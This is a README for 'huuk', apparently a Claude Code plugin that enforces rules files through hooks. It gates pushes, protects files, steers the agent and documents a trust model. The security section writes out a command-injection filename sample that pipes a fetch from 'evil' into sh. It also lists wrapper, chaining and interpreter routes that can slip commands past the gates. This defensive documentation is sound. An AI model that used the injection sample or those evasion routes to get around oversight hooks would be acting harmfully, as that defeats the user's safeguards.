

<div align="center">

# 🪝 huuk

**If-this-then-that rules for Claude Code.**

Gate `git push` on your tests. Protect files from the agent. Auto-format after edits.
Run end-of-turn checks. Steer the agent with instructions — all from one readable rules file
that Claude itself can show and edit.

<br/>

[](https://github.com/raiyanyahya/huuk/actions/workflows/ci.yml)


</div>

---

CI tells you ten minutes after you pushed. Code review tells you tomorrow.
**huuk tells the agent while it's still typing** — and the agent fixes it on the spot:

<p align="center">
  
  <br/>
  <sub>One <b>real recorded session</b> (sped up 2×, idle trimmed): a protected <code>config.json</code>
  steers the agent away, the push gate catches a failing test and Claude fixes it,
  and <code>/huuk:check</code> dry-runs the rules.</sub>
</p>

When a rule fails, the action is blocked and the *reason* — including the failing tool's
output — is fed straight back into Claude's context. The loop closes in seconds, inside
the session, while the fix is cheap.

## Quick start

```bash
# try it without installing
claude --plugin-dir /path/to/huuk

# or install from a marketplace / git URL
/plugin install <marketplace-or-git-url>
```

Then, inside any project:

```text
/huuk:setup
```

which inspects the repo (test runner, linter, formatter, existing Makefile /
pre-commit config), writes a starter `.claude/huuk.rules.json`, and trusts it.

| Command | What it does |
|---|---|
| `/huuk:setup` | Create a starter rules file with checks auto-detected from the project |
| `/huuk:rules` | Show the active rules — or edit them in plain English: *"also require mypy before pushes"* |
| `/huuk:check` | Dry-run: would `git push` (or any command) pass right now? |

## Rules

Rules live in two files, merged at runtime (comments allowed in both):

| File | Scope | |
|---|---|---|
| `<project>/.claude/huuk.rules.json` | **project** | commit it — the whole team's agents follow the same policy |
| `~/.claude/huuk.rules.json` | **global** | your personal rules, in every project |

A project rule with the same `id` overrides the global one (set `"enabled": false` to opt
a project out of a global rule). Edits take effect **immediately** — the engine re-reads
the files on every event.

```jsonc
{
  "rules": [
    {
      "id": "gate-push",
      "description": "Tests and lint must pass before any git push",
      "on": "bash:git push*",
      "severity": "block",              // "block" (default) or "warn"
      "do": [
        { "run": "pytest -q" },
        { "run": "ruff check ." }
      ]
    },
    {
      "id": "protect-env",
      "description": "Env files are managed by hand",
      "on": "edit:.env*",
      "do": [{ "steer": "Don't modify env files. Tell the user which variable to set." }]
    },
    {
      "id": "init-branch-name",
      "description": "Ask before git init which branch name to use",
      "on": "bash:git init",            // exact match — the retried `git init -b main` sails through
      "do": [{ "steer": "Ask the user what the default branch should be named, then run `git init -b <name>`." }]
    }
  ]
}
```

See [examples/huuk.rules.json](examples/huuk.rules.json) for a fuller starter set.

### Cookbook

Every action is just shell — so rules can hit APIs, generate reports, and run any
check you can script. A tour of what people actually gate:

**🌐 API hits** — verify the world outside the repo:

```jsonc
{
  "id": "deploy-needs-healthy-staging",
  "description": "Staging API must answer before deploying",
  "on": "bash:npm run deploy*",
  "do": [{ "run": "curl -fsS --max-time 10 https://staging.example.com/health" }]
},
{
  "id": "openapi-contract",
  "description": "Lint the API contract before pushing API changes",
  "on": "bash:git push*",
  "if": { "exists": "openapi.yaml" },
  "do": [{ "run": "npx @stoplight/spectral-cli lint openapi.yaml" }]
}
```

**📣 Reports** — after something happens, tell someone (the `ran:` trigger fires
*after* success; `severity: warn` means these never block):

```jsonc
{
  "id": "slack-push-report",
  "description": "Report every push to the team channel",
  "on": "ran:git push*",
  "severity": "warn",
  "do": [{ "run": "curl -sS -X POST -H 'Content-type: application/json' --data \"{\\\"text\\\": \\\"huuk: pushed $(git log -1 --oneline)\\\"}\" \"$SLACK_WEBHOOK\"" }]
},
{
  "id": "coverage-report",
  "description": "Surface a coverage summary after every test run",
  "on": "ran:npm test*",
  "severity": "warn",
  "do": [{ "run": "npx nyc report --reporter=text-summary 2>/dev/null || true" }]
}
```

**✅ Checks** — the classics, each one line:

```jsonc
{ "id": "typecheck-on-stop", "description": "Code must typecheck before Claude finishes a turn",
  "on": "stop", "if": { "exists": "tsconfig.json" }, "do": [{ "run": "npx tsc --noEmit" }] },

{ "id": "changelog-ships", "description": "Releases need a changelog",
  "on": "bash:npm publish*", "do": [{ "require_file": "CHANGELOG.md" }] },

{ "id": "docker-lint", "description": "Lint the Dockerfile on every image build",
  "on": "bash:docker build*", "severity": "warn", "do": [{ "run": "npx hadolint Dockerfile" }] }
```

**🧭 Steering** — rules that talk to the agent instead of running anything:

```jsonc
{ "id": "no-direct-main", "description": "Work happens on branches",
  "on": "bash:git push*", "if": { "branch": ["main", "master"] },
  "do": [{ "steer": "Direct pushes to main are not allowed. Create a feature branch, push it, and offer to open a PR." }] },

{ "id": "plan-before-apply", "description": "Terraform changes get reviewed first",
  "on": "bash:terraform apply*",
  "do": [{ "steer": "Run `terraform plan` first, show the user the plan, and apply only after they confirm." }] },

{ "id": "lockfile-hands-off", "description": "Lockfiles are generated, not edited",
  "on": "edit:package-lock.json",
  "do": [{ "steer": "Never edit the lockfile by hand — run the package manager instead." }] }
```

**📋 Session context** — inject live state when a session starts:

```jsonc
{
  "id": "morning-briefing",
  "description": "Start every session knowing where the repo stands",
  "on": "session_start",
  "do": [
    { "run": "git status --short --branch" },
    { "run": "git log --oneline -5" }
  ]
}
```

### Triggers — *if this…*

| `on` | Fires | Notes |
|---|---|---|
| `bash:<pattern>` | before a shell command | `*` is a wildcard; **no `*` = exact match**. Chained commands, wrappers (`sudo`, `env FOO=1 …`), and `sh -c "…"` payloads are all matched — see [Security model](#security-model) |
| `edit:<glob>` | before a file is created/modified | glob without `/` matches basenames anywhere (`.env*` catches `api/.env.local`); with `/`, matches project-relative paths |
| `edited:<glob>` | after a file is modified | `{file}` placeholder available in `run` — e.g. auto-format |
| `ran:<pattern>` | after a shell command succeeds | e.g. `npm audit` after `npm install*` |
| `session_start` | when a session starts | `run` output is injected into Claude's context |
| `stop` | when Claude finishes a turn | failures make Claude keep working until fixed (never loops: a continued turn is not re-blocked) |

### Actions — *…then that* (`do`, run in order)

| Action | Meaning |
|---|---|
| `{ "run": "cmd" }` | Run a shell command; non-zero exit = failure, output tail included in the feedback. Optional `"timeout_s"` (default 300). `{file}` / `{command}` expand **already shell-quoted** — write `black {file}`, not `black "{file}"` |
| `{ "require_file": "path" }` | Fail if the file doesn't exist |
| `{ "forbid": "message" }` | Always fail with this message — hard bans |
| `{ "steer": "instruction" }` | Block **and instruct the agent** — *"ask the user X first"*, *"do Y instead"*. The trigger-a-conversation action |

### Conditions — *…but only if* (`if`, all must hold)

| Condition | Meaning |
|---|---|
| `"branch": ["main", "release-*"]` | current git branch matches (rule is skipped outside a git repo) |
| `"exists": "package.json"` | path(s) exist — scope global rules to project types |
| `"not_exists": "path"` | path(s) absent |

### Severity

- **`block`** (default) — the action is denied (pre-events), or an error is raised that
  Claude must address (post/stop events).
- **`warn`** — everything proceeds; pre-event warnings are shown to you, post-event
  warnings are added to Claude's context. Warn rules never touch the permission system.

## How it works

huuk registers four Claude Code hooks — `PreToolUse`, `PostToolUse`, `SessionStart`,
`Stop` — that all invoke [`bin/huuk.js`](bin/huuk.js): a single zero-dependency Node
script (Node is guaranteed present wherever Claude Code runs). The hook wiring is static;
**all behavior comes from the rules files**, which is why edits apply instantly. Blocking
uses the native hook protocol (`permissionDecision: "deny"` / exit code 2), so gates hold
even in bypass-permissions mode, and they apply to subagents too.

**Emergency off-switch:** launch with `HUUK_DISABLE=1` to disable all rules for that
session. A broken rules file never bricks the session — huuk reports the syntax error,
warns that rules are not enforced, and stays out of the way.

### The JSON on the wire

When Claude is about to run a tool, Claude Code sends the engine an event on stdin:

```json
{
  "hook_event_name": "PreToolUse",
  "session_id": "abc123",
  "cwd": "/home/you/project",
  "tool_name": "Bash",
  "tool_input": { "command": "git push origin main" }
}
```

huuk matches it against your rules, runs the matching checks, and answers on stdout.
A failing gate produces a native permission denial whose reason is written *to the
model*, not just to you:

```json
{
  "hookSpecificOutput": {
    "hookEventName": "PreToolUse",
    "permissionDecision": "deny",
    "permissionDecisionReason": "huuk blocked `git push origin main`.\n\nRule \"gate-push\" (tests must pass before any push):\n  - `node test.js` failed (exit 1):\nAssertionError: add(2, 3) should be 5, got -1\n\nAddress the issues above, then retry. Do not work around these checks; if a rule seems wrong, tell the user and let them change it with /huuk:rules."
  }
}
```

That reason string is the whole trick: the failing tool's output lands in Claude's
context, so the next thing Claude does is fix the test. File edits (`Edit`/`Write`)
arrive the same way with `tool_input.file_path`; post-events use exit code 2 with the
report on stderr; `session_start` answers with `additionalContext` instead of a
decision. One protocol, four hook events, zero configuration beyond the rules file.

## Security model

- 🔐 **Project rules files must be trusted before they execute anything.** A repo you
  clone could ship a `.claude/huuk.rules.json` with a `session_start` rule that runs code
  the moment you open a session. huuk therefore pins a SHA-256 of each project rules file
  in `~/.claude/huuk-trust.json`: until approved (`node bin/huuk.js --trust`, or via
  `/huuk:setup` / `/huuk:rules`, which trust after *you* author the rules), its `run`
  actions **fail closed** with a message explaining how to approve. Any edit revokes
  trust. Non-executing actions (`forbid`, `steer`, `require_file`) work without trust —
  they can't run code. Global rules in your own `~/.claude/` are implicitly trusted.
- 🧼 **Hostile filenames can't inject commands.** `{file}` / `{command}` placeholders are
  shell-quoted on substitution, so a model-created file named `` a`curl evil|sh`.py ``
  reaches your formatter as a literal argument, and `$&`-style replacement sequences are
  inert.
- 🚦 **`warn` rules never touch the permission system.** They emit a message only — never
  a `permissionDecision` — so a warn rule can't accidentally auto-approve a command that
  would normally prompt you.
- 🕵️ **Evasion-resistant matching.** `bash:` patterns are checked against the whole
  command, each chained segment (`&&`, `;`, `|`, `&`, newlines), wrapper-stripped variants
  (`sudo`, `env FOO=1`, `command`, `exec`, `nohup`, `time`, `nice`, …), whitespace-normalized
  forms, and the quoted payload of `sh -c "…"`-style invocations — with false-positive
  tests ensuring `git commit -m "about git push"` and friends pass freely.
- 📏 **Bounded feedback.** Check output relayed to the model is truncated (2 KB per
  failure), and a broken rules file degrades loudly to non-enforcement rather than
  executing anything.

### Honest limits

- huuk governs **Claude Code sessions**. A human pushing from a plain terminal bypasses
  it — keep CI as the hard backstop. huuk's job is catching problems while the agent can
  still fix them cheaply.
- Command matching is string-based and best-effort. Wrappers, chains, and `sh -c`
  payloads are caught, but a push buried inside a script, Makefile target, or non-shell
  interpreter (`python -c`) won't match a `bash:` pattern.
- File rules (`edit:` / `edited:`) see Claude's *file tools* (Edit/Write). A shell
  command that writes the same file — `echo DEBUG=1 >> .env` — is only visible to
  `bash:` rules. For high-value files, pair them, belt and braces:

  ```jsonc
  { "id": "protect-env-edit",  "on": "edit:.env*",    "do": [{ "steer": "Env files are managed by hand." }] },
  { "id": "protect-env-shell", "on": "bash:*>*.env*", "do": [{ "steer": "Don't write to env files from the shell either." }] }
  ```
- Check output fed back to the model is *content from your tools*; a rule that runs an
  untrustworthy command relays that command's text into the session.

## Development

```bash
node test/run-tests.js     # 77 assertions: matching + evasion, injection, trust,
                           # severities, merging, all events, CLI modes
claude plugin validate .   # manifest check
claude --plugin-dir .      # live test in a real session
```

CI runs the suite on Linux and macOS across Node 18/20/22 —
see [.github/workflows/ci.yml](.github/workflows/ci.yml).

The README demo is a **real recorded session** (not a mockup): a pty recorder drives a
live `claude` session against a repo with a failing test — see
[assets/record_demo.py](assets/record_demo.py); convert the resulting `.cast` with
[agg](https://github.com/asciinema/agg).

Engine CLI (used by the skills, handy for debugging):

| Flag | |
|---|---|
| `--list` | merged rules + trust status, as JSON |
| `--check [command]` | simulate a gate (default `git push origin main`); exit `3` = would block |
| `--trust` / `--untrust` | approve / revoke the project rules file |
| `--version` | engine version |

## License

MIT
